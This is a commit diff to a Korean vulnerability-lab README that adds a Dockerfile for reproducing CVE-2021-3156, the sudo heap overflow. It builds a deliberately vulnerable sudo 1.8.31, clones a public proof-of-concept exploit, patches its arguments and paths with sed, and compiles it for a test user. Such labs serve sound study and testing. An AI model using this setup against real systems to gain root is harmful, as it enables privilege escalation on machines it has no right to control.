

Before and after one commit to gunh0/kr-vulhub, a Markdown page: sudo/README.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/sudo/README.md
+++ b/sudo/README.md
@@ -6,4 +34,55 @@
 ### 환경 구성
+CVE-2021-3156은 아직 vulhub에 올라와있지 않은 것으로 확인하였습니다.
+따라서 아래와 같이 `dockerfile`을 구성하였습니다.
+- 취약한 베이스 이미지인 `ubuntu:20.04`를 사용
+- 공개된 github PoC 코드 사용
+  - https://github.com/CyberCommands/CVE-2021-3156.git
+  - 컨테이너 내의 환경과 일부 맞지 않는 부분이 있어 수정함
+- sudo 저장소에서 취약한 버전의 sudo를 다운로드받아 이미지 내에서 빌드
+```Dockerfile
+# CVE-2021-3156
+
+# 베이스 이미지 설정
+FROM ubuntu:20.04
+ARG DEBIAN_FRONTEND=nointeractive
+
+# 필요한 패키지 설치
+RUN apt-get update -y
+RUN apt-get install -y build-essential \
+                       make wget whois \
+                       gdb git python3-pip \
+                       libssl-dev libffi-dev \
+                       python3-dev sudo
+
+# 취약한 sudo 빌드 및 설치
+WORKDIR /root
+RUN wget https://www.sudo.ws/dist/sudo-1.8.31.tar.gz
+RUN tar -xf sudo-1.8.31.tar.gz && \
+    cd sudo-1.8.31/ && \
+    mkdir build && cd build && \
+    ../configure --enable-env-debug && \
+    make -j && make install
+
+# 테스트 유저 생성 및 설정
+RUN useradd -ms /bin/bash Gayang2902
+WORKDIR /home/Gayang2902
+COPY ./vuln_check /home/Gayang2902/vuln_check
+
+# 공개된 PoC clone 및 컨테이너 환경에 맞게 일부 수정하여 빌드
+## 1. argv 변수 수정
+## 2. sudoedit 경로 수정
+RUN git clone https://github.com/CyberCommands/CVE-2021-3156.git && \
+    cd CVE-2021-3156 && \
+    sed -i 's|char\* argv\[\] = {[^}]*}|char* argv[] = { "sudoedit", "-s", "AAAAA", NULL };|' exploit.c && \
+    sed -i 's|/usr/bin/sudoedit|/usr/local/bin/sudoedit|g' exploit.c && \
+    make && \
+    ln -s /home/Gayang2902/CVE-2021-3156/exploit /home/Gayang2902/exploit
+
+USER Gayang2902
+
+CMD [ "bash" ]
+
+```
 **이미지 빌드**
 ```bash
 docker build -t <image:tag> .
````
Also changed, not shown: other parts of sudo/README.md (+37 -3 lines), sudo/images/image.png (added), sudo/images/image_build.png (added), sudo/images/vuln_check.png (added).
